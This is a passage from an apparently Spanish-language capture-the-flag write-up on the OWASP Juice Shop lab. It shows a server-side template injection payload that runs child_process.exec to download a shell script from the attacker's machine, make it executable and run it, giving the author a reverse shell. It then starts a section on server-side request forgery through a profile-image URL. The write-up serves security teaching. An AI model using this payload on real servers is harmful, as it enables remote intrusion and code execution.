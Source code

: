 ![Template Injection](/assets/img/posts/juicyshop/43.png)
_Ahora en vez de usar el "malware" que está ahí en internet para este ctf vamos a crear el nuestro propio que no va a ser más que una shell reversa en bash_

```javascript
#{global.process.mainModule.require('child_process')
  .exec('wget http://192.168.93.131:8000/shell.sh -O /tmp/shell.sh && chmod +x /tmp/shell.sh && bash /tmp/shell.sh')}
```

En resumidas cuentas haciendo uso de JS indicamos que descargue el shell.sh de nuestra máquina kali (que está sirviendo el archivo por http usando python), lo mande a la carpeta tmp, le de permisos de administrador y luego lo ejecute. Teniendo esto listo y antes de introducir el payload en el parámetro vulnerable preparamos tanto el archivo para servir como la escucha en el puerto 5555.

![Template Injection](/assets/img/posts/juicyshop/44.png)
_Ahora si inyectamos el payload en el parámetro de username._

![Template Injection](/assets/img/posts/juicyshop/45.png)
_Listo tenemos acceso remoto a la máquina del servidor._

## Server Side Request Forgery

El concepto es llegar a acceder contenido oculto o no visible al usuario dentro del sistema de archivos del servidor. En este caso el parámetro vulnerable se trata de una imagen y está contenido dentro de una etiqueta IMG por lo que en principio no podremos ver contenido en texto plano o renderizar otra cosa que no sea img.

El funcionamiento del parámetro dentro de la web es un prompt donde podemos introducir una URL para establecer nuestra foto de perfil desde un link externo.

![SSRF Attack](/assets/img/posts/juicyshop/46.png)
_Si introducimos una url de alguna imagen e inspeccionamos el contenido de la página veremos que el servidor web de juicy hace un request a la url, descarga la imagen y la muestra._
